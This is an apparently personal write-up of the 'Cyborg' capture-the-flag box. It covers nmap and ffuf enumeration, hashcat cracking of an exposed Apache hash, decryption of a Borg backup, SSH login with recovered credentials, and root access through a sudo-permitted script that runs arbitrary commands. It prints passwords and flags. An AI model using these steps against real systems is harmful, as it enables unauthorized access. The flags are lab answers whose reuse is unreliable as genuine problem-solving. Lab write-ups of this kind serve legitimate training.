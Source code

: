 # Cyborg
A box involving encrypted archives, source code analysis and more.

We are given the IP address of the machine which will be refered to as $IP in the following.

Lets start our `nmap` scan:
```
$ sudo nmap -sV -sC $IP
                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-12 15:58 UTC
Nmap scan report for 10.10.87.230
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The machine runs a web server. We navigate to the hosted website and find out that it contains the default Apache page set up after initialization.
>> insert image

We can enumerate for other content hosted by the machine.
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u "http://10.10.87.230/FUZZ" 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.87.230/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 71ms]
etc                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 68ms]

```

We were able to find two directories. Whene navigating to the admin portal, we find a downloadable Borg backup of the website called.
The archive is encrypted and needs a passphrase for decrypion.

Let's check the etc directory. This contains a configuration file of a Squid proxy and a passwd file.
The passwd file contains a hash of the `music_archive` user.
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

We successfully crack the password using `hashcat` and the `rockyou` wordlist. The password is `squidward`.

```
$ hashcat -m 1600 -a 0 hash /usr/share/wordlists/rockyou.txt 

<...snip...>

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 7 secs

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward

<...snip...>

```

Back to our music archive, we find out that the backup was made using the above password, and now can recover the archive's data using `borg` command line utility.

To list all the backups in the archive:
```
$ borg list final_archive
  
Enter passphrase for key /home/kali/Downloads/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 14:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

Now let's extract the data. Note that the command is executed from `dev` sub-folder and that the output of the command will be written in the same location as well.
```
$ borg extract final_archive::music_archive
```

Content of the backup:
```
$ tree
.
└── alex
    ├── Desktop
    │   └── secret.txt
    ├── Documents
    │   └── note.txt
    ├── Downloads
    ├── Music
    ├── Pictures
    ├── Public
    ├── Templates
    └── Videos

```

The content of secrete was a bit disappointing XD
```
shoutout to all the people who have gotten to this stage whoop whoop!"
```
However, the note is giving valuable information
```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

Since the above are Alex credentials, we can try connecting via ssh.

In the home directory we find the user flag: `flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`

Left is the root flag. Making use of the given hint "There might be an interesting file running as root" and checking our Alex permissions, we find that the script `backup.sh` can be ran as a root.
```
$ sudo -l

Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

That script can execute any given command following the `-c` option. Using this we can enumerate files in the root repository.

```
$ sudo ./mp3backups/backup.sh -c "ls /root"

<...snip...>
Backup finished

root.txt
```

Finally the root flag: `flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`



